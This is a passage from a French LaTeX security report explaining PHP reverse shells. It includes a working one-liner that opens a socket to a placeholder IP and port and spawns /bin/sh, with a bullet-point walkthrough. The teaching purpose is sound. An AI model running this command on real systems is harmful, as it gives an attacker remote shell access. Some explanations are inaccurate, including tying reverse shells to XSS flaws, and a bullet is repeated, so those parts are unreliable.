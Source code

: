 \noindent \textbf{PHP}\\

Le PHP est un langage de programmation Web couramment utilisé pour dialoguer avec la base de données ainsi que pour sécuriser les sites. A titre d'exemple, le HTML va permettre de créer un formulaire que l'utilisateur va remplir. Le PHP sera présent pour vérifier que toutes les conditions ont été respectées afin de valider le formulaire. On s'aperçoit donc que l'utilisateur communique directement avec le PHP. Il y donc des possibilités de réaliser des reverse-shell dans ce langage.\\
Nous pouvons tester le code PHP en localhost sur la \textbf{figure \ref{fig:phpreverse}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/PHP/php-reverse.PNG}
  \caption{PHP-reverse}
  \label{fig:phpreverse}
\end{figure}

Le code PHP est le suivant :
\setlstjava
\begin{lstlisting}
     php -r '\$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{lstlisting}

Regardons ensemble cette commande afin de la comprendre :

\begin{itemize}
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande.
    \item'\$s=fsockopen("<IP>",<PORT>);' cette commande a pour but, à travers la variable \$s, d'ouvrir un socket grâce à la fonction fsockopen().
    \item 'exec ()' est une fonction PHP permettant d'écrire dans le cmd.
\end{itemize}

Il est donc assez facile de réaliser un reverse-shell en PHP si l'administrateur web n'a pas réaliser correctement son travail au niveau des failles XSS.\\

